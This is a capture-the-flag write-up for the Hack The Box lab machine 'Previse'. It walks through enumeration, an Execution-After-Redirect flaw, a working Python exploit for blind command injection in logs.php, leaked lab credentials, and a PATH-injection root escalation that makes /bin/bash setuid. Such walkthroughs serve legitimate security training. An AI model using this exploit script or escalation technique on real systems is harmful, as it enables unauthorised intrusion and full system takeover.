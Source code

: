 ![](previse_banner.png)

<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"><img loading="lazy" alt="x00tex" src="https://www.hackthebox.eu/badge/image/391067"></a>
</p>

# Enumeration

**IP-ADDR:** 10.10.11.104 previse.htb

**nmap scan:**
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 53:ed:44:40:11:6e:8b:da:69:85:79:c0:81:f2:3a:12 (RSA)
|   256 bc:54:20:ac:17:23:bb:50:20:f4:e1:6e:62:0f:01:b5 (ECDSA)
|_  256 33:c1:89:ea:59:73:b1:78:84:38:a4:21:10:0c:91:d8 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-title: Previse Login
|_Requested resource was login.php
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Found bunch of php file from gobuster scan
```bash
/logout.php           (Status: 302) [Size: 0] [--> login.php]                 
/login.php            (Status: 200) [Size: 2224]                              
/download.php         (Status: 302) [Size: 0] [--> login.php]                 
/files.php            (Status: 302) [Size: 4914] [--> login.php]              
/logs.php             (Status: 302) [Size: 0] [--> login.php]                 
/config.php           (Status: 200) [Size: 0]                                 
/index.php            (Status: 302) [Size: 2801] [--> login.php]              
/accounts.php         (Status: 302) [Size: 3994] [--> login.php]              
/nav.php              (Status: 200) [Size: 1248]                              
/status.php           (Status: 302) [Size: 2968] [--> login.php]
```

bunch of php files and most of them are redireting to `login.php` but all redirect sizes are diffrent. If we intercept these redirect requests we can see these file content. ***New Thing:** This is a EAR(Execution After Redirect) vulnerability **(owasp docs)[https://owasp.org/www-community/attacks/Execution_After_Redirect_(EAR)]***

And there's also a zip file.

![](screenshots/files-php.png)

We can create new account from `/accounts.php` with POST request.

![](screenshots/account-create.png)

And now we can downlaod that `siteBackup.zip`.

Zip file contains source code of the web application.

# Foothold

## Blind Command Injection

* From `config.php` got mysql creds `root:mySQL_p@ssw0rd!:)`.
* `logs.php` has a command injection bug in line 19-20

  ![](screenshots/log-source.png)

  User input from `/logs.php` POST request paramter `delim` directly placced in the `exec()`.

`/logs.php` file executing python script and takes input from `delim` parameter, and it is vulnerable form blind command injection.

![](screenshots/blind-ci.png)

**Exploit Script**
```py
import sys
import requests as r

url = 'http://10.10.11.104'

try:
    def signup():
        location = f'{url}/accounts.php'
        data = {'username': 'poorduck', 'password': 'p00rduck', 'confirm': 'p00rduck'}
        create_ac = r.post(location, data=data, allow_redirects=False)
        if 'Success! User was added!' in create_ac.text:
            return '[+] Account is created'
        elif 'Username is already taken!' in create_ac.text:
            return '[+] User already exits'
        else:
            return create_ac.text


    print(signup())
    s = r.session()
    data = {'username': 'poorduck', 'password': 'p00rduck'}
    s.post(f'{url}/login.php', data=data)


    def exec_cmd(cmd):
        location = f'{url}/logs.php'
        data = {'delim': f'`{cmd}`'}
        execute = s.post(location, data=data, timeout=10)
        if 'time,user,fileID' in execute.text:
            return '[+] Command Executed. This is a blind command injection!'
        else:
            return execute.text


    print(exec_cmd(sys.argv[1]))
    s.close()
except r.exceptions.Timeout:
    print('\n[-] Response timeout!')
except KeyboardInterrupt:
    print('\n[-] Exiting execuation!')
```

# Privesc

## Absolute Path Injection

Logged in to sql server with found creds and got user `m4lwhere` password hash, cracked with john and su to user `m4lwhere` with that password.

![](screenshots/john-the-hash.png)
<!--m4lwhere:ilovecody112235!-->

User `m4lwhere` can run a python script with sudo as root.
```bash
m4lwhere@previse:~$ sudo -l
[sudo] password for m4lwhere: 
User m4lwhere may run the following commands on previse:
    (root) /opt/scripts/access_backup.sh
```

Script is using `date` and `gzip` command without specifying full path and there is no secure path set in sudo.

![](screenshots/date-path-miss.png)

Using path injection to exploit that script
```
echo 'chmod +s /bin/bash' > /tmp/date && chmod +x /tmp/date
export PATH=/tmp:$PATH
sudo -u root /opt/scripts/access_backup.sh
```

![](screenshots/rooted.png)